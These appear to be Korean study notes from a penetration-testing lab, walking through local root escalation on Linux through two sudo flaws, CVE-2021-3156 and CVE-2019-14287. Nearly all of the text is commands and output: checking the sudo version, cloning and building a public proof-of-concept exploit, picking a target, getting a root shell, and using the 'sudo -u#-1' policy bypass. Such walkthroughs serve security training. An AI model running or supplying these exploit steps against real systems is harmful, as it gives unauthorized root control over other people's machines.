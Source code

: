 ## CVE-2021-3156 (Priv. escalation)

Sudo 취약점에 영향을 받는 sudo의 version은 아래와 같다.
- **1.8.31 - Ubuntu 20.04**
- **1.8.27 - Debian 10**
- **1.9.2 - Fedora 33**
- **and others**

**Sudo Version 조회**
```powershell
cry0l1t3@nix02:~$ sudo -V | head -n1

Sudo version 1.8.31
```

**PoC 다운 및 빌드**
```powershell
cry0l1t3@nix02:~$ git clone <https://github.com/blasty/CVE-2021-3156.git>
cry0l1t3@nix02:~$ cd CVE-2021-3156
cry0l1t3@nix02:~$ make

rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
```

**PoC 기능 확인**
```powershell
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
```

**OS 버전 확인**
```powershell
cry0l1t3@nix02:~$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

**권한 상승 공격**
```powershell
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **

# id

uid=0(root) gid=0(root) groups=0(root)
```

## CVE-2019-14287 (Sudo Policy Bypass)

**1.8.28 버전 아래**에서 권한 상승이 가능한 취약점이 존재한다.

**Sudo 권한 확인**
```powershell
cry0l1t3@nix02:~$ sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```

```powershell
cry0l1t3@nix02:~$ cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

현재 사용자인 cry0l1t3은 1005의 ID를 갖는다. sudo 에 음수인 ID(-1)을 입력하면 루트만 가지고 있는 ID인 0을 처리하게 된다. 따라서 바로 루트 쉘이 생성된다.
```powershell
cry0l1t3@nix02:~$ sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```